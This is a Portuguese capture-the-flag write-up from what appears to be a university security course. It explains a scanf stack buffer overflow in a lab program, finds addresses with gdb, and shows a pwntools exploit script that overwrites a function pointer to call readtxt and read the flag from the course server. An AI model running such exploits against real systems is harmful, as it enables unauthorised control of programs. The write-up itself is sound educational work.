



# CTF Semana #5 (Buffer Overflow)

Este documento descreve as etapas seguidas para explorar o funcionamento da stack e realizar a exploração de vulnerabilidades de buffer overflow na stack, utilizando o servidor cujo backend está em execução em [ctf-fsi.fe.up.pt](http://ctf-fsi.fe.up.pt:4000).

## 1. Reconhecimento 

Buffer overflow é uma vulnerabilidade de segurança que ocorre quando um programa tenta armazenar mais dados em um buffer do que ele pode comportar. Um bom exemplo é feito neste [video](https://www.youtube.com/watch?v=1S0aBV-Waeo).

Analisando o código do ficheiro `main.c`, percebemos que havia uma vulnerabilidade relacionada com o uso da função `scanf`. Como podemos ver na Figura 1, é declarado um buffer de 32 bytes, mas a função `scanf` permite que o user forneça até 45 bytes de input. Isto significa que ao inserir uma string maior do que 32 caracteres vai haver um buffer overflow.



*Figura 1: vulnerabilidade na função `main.c`.*

O buffer overflow pode sobrescrever o pointer da função `fun` e permitir manipular esse pointer para apontar para outra função. 

## 2. Endereços 

Após isso, precisamos de identificar os endereços em que essas variáveis estão localizadas. Para isso, utilizamos o `gdb` (GNU Debugger) com breakpoint na função `main` para encontrar essas informações.

Como podemos ver na Figura 2. descobrimos os endereços de `fun`, `buffer` e `readtxt`, além de calcular o offset entre `fun` e `buffer`, que é de 32 bytes. Este offset confirma que, ao ultrapassar 32 bytes de input, o pointer `fun` pode ser sobrescrito, permitindo a manipulação do fluxo de execução. 



*Figura 2: endereços de `fun`, `buffer` e `readtxt`*


## 3. Exploit 

Com toda a informação recolhida, alteramos o código do ficheiro `exploit.py` para o seguinte:

```python
#!/usr/bin/python3
from pwn import *

# to attack the remote server
r = remote('ctf-fsi.fe.up.pt', 4000)
# to run locally
# r = process('./program')

readtxt_adress = 0x80497a5

payload =  b"flag\0" # 5 bytes
payload += b"x"*27 # 32 - 5 = 27 bytes
payload += p32(readtxt_adress)

r.recvuntil(b"flag:\n")
r.sendline(payload)

buf = r.recv().decode()
print(buf)
```

A construção do payload foi feita da seguinte forma:

- Inserimos a string `flag` com um null byte `\0` para indicar ao programa o final da string (5 bytes).

- Preenchemos o restante do buffer com 27 bytes de um caracter aleatório para totalizar os 32 bytes.

- Sobrescrevemos o pointer `fun` com o endereço da função `readtxt` para o programa executar `readtxt`em vez de `echo`.

Com este payload conseguimos manipular o pointer `fun` para apontar para `readtxt` e passar o parâmetro `flag`, uma vez que a presença do null byte após `flag` faz com que o programa considere apenas os primeiros 5 bytes.

Ao correr o exploit conseguimos determinar o nosso resultado (Figura 3).



*Figura 3: flag obtida após executar o exploit.*